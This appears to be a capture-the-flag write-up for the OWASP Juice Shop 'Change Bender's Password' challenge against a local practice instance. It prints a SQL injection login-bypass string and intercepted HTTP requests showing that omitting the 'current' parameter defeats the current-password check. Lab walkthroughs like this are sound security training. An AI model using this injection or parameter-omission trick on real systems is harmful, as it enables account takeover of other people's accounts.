




# Juice Shop Hacking Challenges – Change Bender’s Password

## Table of Contents
1. [Challenge Description](#challenge-description)  
2. [Solution Approach](#solution-approach)  
3. [Security Implications](#security-implications)  
4. [Video Demonstration](#video-demonstration)  

---

## Challenge Description

**Challenge:** Change Bender's Password  
**Difficulty:** ★★★★★ (5 stars)  
**Objective:** Change the password of the user "Bender" to `slurmCl4ssic` *without* using SQL Injection or the Forgot Password functionality.

---

## Solution Approach

1. **Identify Bender’s Email:**  
   - By exploring product reviews, the email address `bender@juice-shop` was discovered.

   

2. **Login Attempt:**  
   - Attempted login using `bender@juice-sh.op'--` with any password (to bypass password verification).

3. **Intercept Password Change Request:**  
   - Navigated to the "Change Password" page.  
   - Filled all fields and intercepted the password change request via Burp Suite.

   **Change password HTTP request**

   

   **Request:**

   ```http
      GET /rest/user/change-password?current=test123&new=slurmCl4ssic&repeat=slurmCl4ssic HTTP/1.1
      Host: 127.0.0.1:3000
      Authorization: Bearer [bender_token]
      Accept: application/json
   ```

   **Response:**

   ```http
      HTTP/1.1 401 Unauthorized
      Content-Type: text/html; charset=utf-8

      "Current password is not correct."
   ```

4. **Manipulate Request:**  
   - Initially, the API required the `current` password parameter; if empty, the server rejected the request with "Current password is not correct."
   
   **Request with empty `current` parameter: `current=`**

   ```http
   GET /rest/user/change-password?current=&new=slurmCl4ssic&repeat=slurmCl4ssic HTTP/1.1
   Host: 127.0.0.1:3000
   Authorization: Bearer [bender_token]
   Accept: application/json
   ```
   
   **Request `current` parameter: `current=""`**

   ```http
   GET /rest/user/change-password?current=""&new=slurmCl4ssic&repeat=slurmCl4ssic HTTP/1.1
   Host: 127.0.0.1:3000
   Authorization: Bearer [bender_token]
   Accept: application/json
   ```

   **Response:**

   ```http
   HTTP/1.1 401 Unauthorized
   Content-Type: text/html; charset=utf-8

   "Current password is not correct."
   ```

   - Found that completely **removing the `current` parameter** bypasses this check.

5. **Final Request:**  
   - Sent a GET request without the `current` parameter, changing the password successfully.

   ### Successful Request (without `current` parameter)

   ```http
      GET /rest/user/change-password?new=slurmCl4ssic&repeat=slurmCl4ssic HTTP/1.1
      Host: 127.0.0.1:3000
      Authorization: Bearer [bender_token]
      Accept: application/json
   ```

   **Response:**

   ```http
      HTTP/1.1 200 OK
      Content-Type: application/json; charset=utf-8

      {
      "user": {
         "id": 3,
         "email": "bender@juice-sh.op",
         "role": "customer",
         "isActive": true,
         "createdAt": "2025-06-05T03:15:34.956Z",
         "updatedAt": "2025-06-05T06:41:33.069Z"
      }
      }
   ```

   **HTTP request without `current` parameter**

   

   **Challenge solved!**

   
   
## Security Implications

- The vulnerability allows bypassing the current password check on the password change endpoint by omitting the `current` parameter.  
- An attacker with access to a valid authentication token for the user can reset the password without knowing the original password.  
- This could lead to full account takeover and unauthorized access.

---

## Video Demonstration

A detailed walkthrough of this challenge, including discovery, exploitation, and explanation, is available in the Loom video:  
**[[Loom Video Link](https://www.loom.com/share/05873b96974e4dec8c963592e425f099?sid=951b4bac-2a7d-47a0-ae79-38a7d90d8b23)]**
